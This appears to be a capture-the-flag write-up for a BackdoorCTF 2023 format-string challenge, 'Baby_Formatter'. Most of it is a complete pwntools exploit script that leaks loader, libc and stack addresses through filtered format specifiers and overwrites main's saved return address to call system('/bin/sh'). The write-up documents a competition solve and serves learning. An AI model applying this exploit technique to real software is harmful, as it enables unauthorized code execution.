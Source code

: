## Level: Easy

### Challenge

I got the binary, libc and loader from: https://github.com/sajjadium/ctf-archives/blob/main/ctfs/BackdoorCTF/2023/pwn/Baby_Formatter/README.md

Use `pwninit` or `patchelf` to patch the binary. 
```
  cp fmt1 fmt1_patched
  patchelf --set-interpreter ./ld-linux-x86-64.so.2 fmt1_patched
  patchelf --set-rpath . fmt1_patched
```

Cool challenge by __@p0ch1ta__, format string exploit with some filtered chars. This challenge made me realize that I should automate stuff with pwntools and python functions.

### Checksec
![checksec](https://github.com/user-attachments/assets/e040f7ec-3a06-41dd-a1b7-aa411c8d9fe5)

### Leaking info
Btw, they gave us an option to leak an address in libc and in the stack but I didn't take it :P

![noob](https://github.com/user-attachments/assets/7fc15592-e220-4227-aa85-c327c55cb772)

Anyway, `%p` `%u` `%d` and `%x` is filtered but we can still use `%s` and `%o` to leak info. Due to `Full RELRO` we can't overwrite the got entries. Perhaps we can overwrite a got entry in `libc` because it's __Partial RELRO__ but I ended up overwriting _saved rip_ of main to call **system("/bin/sh")**.

### Local Flag

![realflag](https://github.com/user-attachments/assets/67de5c3e-b633-4388-89b3-e5b102a40dad)

### Full Exploit
```
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'
'''
p = gdb.debug("./fmt1_patched", gdbscript="""
    b *main+159
    c
""")
'''

p = process("./fmt1_patched")

# leak an address in loader for gadgets
# the binary doesn't have useful gadgets
payload = b"%27$s"

p.recvuntil(b">> ")
p.sendline(b"2")

p.recvuntil(b">> ")
p.sendline(payload)

ld_leak = p.recvline().strip()

ld_leak = u64(ld_leak.ljust(8, b"\x00"))

ld_base = ld_leak - 242400
print("LD_BASE: " + hex(ld_base))

# useful gadgets
POP_RSP = ld_base + 0x00000000000021d3 
POP_RSI = ld_base + 0x00000000000054da
POP_RDI = ld_base + 0x000000000000351e 
RET = ld_base + 0x2128

# leak libc and stack addresses in octal
payload = b"%17$lo %21$lo %11$lo"

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

leak = p.recvline().strip()

# convert octal to int
libc_leak = int(leak[:16], 8)
stack_leak = int(leak[17:33], 8)

# calculate offsets
libc_base = libc_leak - 171408
ret_addr = stack_leak - 272
bin_sh = libc_base + 1934968 
system = libc_base + 331120

# overwrite the saved rip of main with "pop_rdi"
# split the address so copying is less painful (2 bytes each time instead of 4)
print("OVERWRITING saved rip with 'pop_rdi'...")
pop_rdi = hex(POP_RDI)[6:]
pop_rdi2 = hex(POP_RDI)[10:]
pop_rdi3 = pop_rdi[:4]

pop_rdi = int(pop_rdi, 16)
pop_rdi2 = int(pop_rdi2, 16)
pop_rdi3 = int(pop_rdi3, 16)

# copy the less significant 2 bytes
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr)
payload += p16(pop_rdi2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the next 2 bytes 
payload = b"%*9$c%8$hn"
payload += b"A"*6
payload += p64(ret_addr+2)
payload += p16(pop_rdi3)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# overwrite ret_addr+8 of main with "/bin/sh"
# in gdb to find "/bin/sh" string in libc (get the offsets with vmmap):
# find 0x00007ff799702000, 0x00007ff7998eb000, '/', 'b', 'i', 'n', '/', 's', 'h'
# copy the less significant 4 bytes
print("WRITING '/bin/sh' ONTO THE STACK...")
bin_sh1 = hex(bin_sh)[6:]
bin_sh1 = int(bin_sh1, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+8)
payload += p32(bin_sh1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
bin_sh2 = hex(bin_sh)[:6]
bin_sh2 = int(bin_sh2, 16)
payload = b"%*9$c%8$n"
payload += b"B" * 7
payload += p64(ret_addr+12)
payload += p32(bin_sh2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# align the stack with "ret"
# copy the less significant 4 bytes
print("ALIGNING THE STACK FOR SYSTEM...")
ret1 = hex(RET)[6:]
ret1 = int(ret1, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+16)
payload += p32(ret1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
ret2 = hex(RET)[:6]
ret2 = int(ret2, 16)
payload = b"%*9$c%8$n"
payload += b"C" * 7
payload += p64(ret_addr+20)
payload += p32(ret2)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# call system
# copy the less significant 4 bytes
print("WRITING system('/bin/sh')...")
system1 = hex(system)[6:]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+24)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

# copy the higher 4 bytes
system1 = hex(system)[:6]
system1 = int(system1, 16)
payload = b"%*9$c%8$n"
payload += b"D" * 7
payload += p64(ret_addr+28)
payload += p32(system1)

p.recvuntil(b">> ")
p.sendline(b"2")
p.recvuntil(b">> ")
p.sendline(payload)

print("shell in 3...")
p.interactive()
```

<img src=https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExMHlnZGtkaWFpN2ZmZHk4OWl0cnQ4OW5nM3hhZmlyMHZwYXJudnlveCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/u2dI2h52gAzNS/giphy.webp>

See? That's why I said I should automate stuff 🥀





